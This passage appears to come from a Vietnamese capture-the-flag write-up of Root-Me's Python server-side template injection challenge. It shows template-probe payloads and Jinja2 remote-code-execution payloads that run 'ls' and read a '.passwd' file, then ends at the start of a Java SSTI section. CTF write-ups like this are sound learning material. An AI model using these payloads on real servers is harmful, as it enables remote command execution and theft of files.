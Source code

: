 Chương trình vẫn chạy.

Khi chuỗi được submit ở thẻ input page content:

![](https://i.imgur.com/uCyYEvU.png)

Đã có lỗi xảy ra và chương trình ngừng chạy.

Có vẻ lỗ hổng ở thẻ input page content.

Em tiếp tục test với những payload:

    ```
    {{7*7}}
    ${7*7}
    <%= 7*7 %>
    ${{7*7}}
    #{7*7}
    *{7*7}
    ```

Và Thấy rằng với input `{{7*7}}` thì em đã ssti thành công:

![](https://i.imgur.com/B4N5QXw.png)

Tiếp tục test với payload: `{{7*'7'}}`

![](https://i.imgur.com/6fRePHX.png)

Và em thấy kết quả trả về là:

![](https://i.imgur.com/CYpfU8g.png)

Vậy là em có thể xác định được server chall đang sử dụng Jinja2 hoặc Twig

### Khai thác

Lên Hacktrick và em tìm được payload rce với Jinja2:

`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls -lap').read() }}`

![](https://i.imgur.com/Om8PVTe.png)

Giờ chỉ cần cat file `.passwd` và lấy flag thui

Payload: `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat .passwd').read() }}`




## Java - Server-side Template Injection

![](https://i.imgur.com/tCMS2Ce.png)

Link to chall: https://www.root-me.org/en/Challenges/Web-Server/Java-Server-side-Template-Injection
